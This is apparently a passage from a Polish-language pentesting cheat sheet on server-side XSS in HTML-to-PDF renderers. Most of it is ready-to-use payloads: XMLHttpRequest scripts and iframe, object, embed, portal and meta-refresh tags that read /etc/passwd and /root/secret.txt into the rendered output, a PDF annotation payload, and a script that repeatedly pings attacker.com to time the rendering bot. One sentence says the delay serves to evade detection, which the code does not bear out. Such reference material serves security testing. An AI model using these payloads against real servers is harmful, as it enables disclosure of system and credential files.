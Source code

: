Jeśli SSRF jest dozwolone, ale **nie możesz dotrzeć** do interesującej domeny lub adresu IP, [sprawdź tę stronę w poszukiwaniu potencjalnych bypassów](../ssrf-server-side-request-forgery/url-format-bypass.md).
{% endhint %}
```markup
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(btoa(this.responseText))};
x.open("GET","file:///etc/passwd");x.send();
</script>
```

```markup
<script>
xhzeem = new XMLHttpRequest();
xhzeem.onload = function(){document.write(this.responseText);}
xhzeem.onerror = function(){document.write('failed!')}
xhzeem.open("GET","file:///etc/passwd");
xhzeem.send();
</script>
```

```markup
<iframe src=file:///etc/passwd></iframe>
<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<link rel=attachment href="file:///root/secret.txt">
<object data="file:///etc/passwd">
<portal src="file:///etc/passwd" id=portal>
<embed src="file:///etc/passwd>" width="400" height="400">
<style><iframe src="file:///etc/passwd">
<img src='x' onerror='document.write('<iframe src=file:///etc/passwd></iframe>')'/>&text=&width=500&height=500
<meta http-equiv="refresh" content="0;url=file:///etc/passwd" />
```

```markup
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```
### Opóźnienie bota

W niektórych przypadkach, podczas przeprowadzania testów penetracyjnych, może być konieczne wprowadzenie opóźnienia między kolejnymi żądaniami wysyłanymi przez bota. Opóźnienie to ma na celu naśladowanie naturalnego zachowania użytkownika i uniknięcie wykrycia przez systemy zabezpieczeń.
```markup
<!--Make the bot send a ping every 500ms to check how long does the bot wait-->
<script>
let time = 500;
setInterval(()=>{
let img = document.createElement("img");
img.src = `https://attacker.com/ping?time=${time}ms`;
time += 500;
}, 500);
</script>
<img src="https://attacker.com/delay">
```
### Skanowanie portów
